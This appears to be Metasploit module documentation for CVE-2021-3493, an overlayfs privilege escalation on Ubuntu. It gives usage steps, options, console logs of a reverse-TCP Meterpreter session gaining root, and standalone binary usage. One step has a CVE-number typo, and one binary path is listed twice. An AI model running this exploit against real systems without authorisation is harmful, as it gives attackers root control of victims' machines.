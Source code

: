 ## Vulnerable Application

This module exploits a vulnerability in Ubuntu's implementation of overlayfs.  The
vulnerability is the result of failing to verify the ability of a user to set the
attributes in a running executable. Specifically, when Overlayfs sends the set attributes
data to the underlying file system via `vfs_setxattr`, it fails to first verify the data
by calling `cap_convert_nscap`.
This vulnerability was patched by moving the call to `cap_convert_nscap`
into the `vfs_setxattr` function that sets the attribute, forcing verification every time the
`vfs_setxattr` is called rather than trusting the data was already verified.

### Install

Install Ubuntu from version 14.04LTS to 20.04 LTS

## Verification Steps

1. Make an Ubuntu
1. Create a meterpreter or shell payload and upload it to the Ubuntu target
1. Set up a handler for the payload
1. Launch the payload as a regular user on the Ubuntu Target and connect the handler
1. Do: `use exploit/linux/local/cve_2021_3943_overlayfs`
1. Do: `set payload <payload>`
1. Do: `set lhost <ip>`
1. Do: `set [r|l]port <port>`
1. Do: `run`
1. You should get a root session

## Options

### COMPILE

[Auto|True|False] This selects the binary to use.  True will upload the source code and perform
compilation on target, False will upload a precompiled binary.  AUTO will favor compiling on target
but will fall back to the precompiled option if a compiler cannot be found.

### WritableDir
This indicates the location where you would like the payload and exploit binary stored, as well
as serving as a location to store the various files and directories created by the exploit itself.
The default value is `/tmp`

### Ubuntu 20.04.0 x64

```
msf exploit(linux/local/cve_2021_3493_overlayfs) > 
[*] Sending stage (3012548 bytes) to 192.168.132.138
[*] Meterpreter session 9 opened (192.168.135.197:4567 -> 192.168.132.138:47988 ) at 2021-11-09 11:34:44 -0600

msf exploit(linux/local/cve_2021_3493_overlayfs) > sessions -i 9
[*] Starting interaction with 9...

meterpreter > sysinfo
Computer     : ubuntu-20.04.0
OS           : Ubuntu 20.04 (Linux 5.4.0-26-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: msfuser
meterpreter > background
[*] Backgrounding session 9...
msf exploit(linux/local/cve_2021_3493_overlayfs) > set session 9
session => 9
msf exploit(linux/local/cve_2021_3493_overlayfs) > run

[*] Started reverse TCP handler on 192.168.135.197:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Version array: ["5.4.0", "26", "generic"]
[*] major_version: 5.4.0
[*] minor_version: 26
[+] The target appears to be vulnerable.
[*] Creating directory /tmp/.wH0xRHji
[*] /tmp/.wH0xRHji created
[*] Dropping pre-compiled exploit on system...
[*] Writing '/tmp/.wH0xRHji/.PsJzzn' (17840 bytes) ...
[*] Writing '/tmp/.wH0xRHji/.Doeg4dSW1G' (250 bytes) ...
[*] Launching exploit...
[*] Running: /tmp/.wH0xRHji/.PsJzzn /tmp/.wH0xRHji/.Doeg4dSW1G /tmp/.wH0xRHji 6PFbO1d
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3012548 bytes) to 192.168.132.138
[+] Deleted /tmp/.wH0xRHji/.PsJzzn
[*] Meterpreter session 10 opened (192.168.135.197:4444 -> 192.168.132.138:41814 ) at 2021-11-09 11:35:05 -0600
[*] 

meterpreter > getuid
Server username: root
```

### Included Binaries
The binaries used by this exploit `data/exploits/CVE-2021-3493/cve_2021_3493.x64.elf` and
`data/exploits/CVE-2021-3493/cve_2021_3493.x64.elf` can and be used separately from
metasploit.  The parameters required are:
```
// argv[1] = The payload or executable you wish to launch
// argv[2] = A directory to store the files and directories created when the exploit runs
// argv[3] = A random string that is used to create directory names.
```
```
msfuser@ubuntu-18041:~$ id
uid=1000(msfuser) gid=1000(msfuser) groups=1000(msfuser),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
msfuser@ubuntu-18041:~$ mkdir /tmp/test
msfuser@ubuntu-18041:~$ ./cve_2021_3493.x64.elf /bin/bash /tmp/test abcdef
root@ubuntu-18041:~# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),1000(msfuser)
root@ubuntu-18041:~# 
```

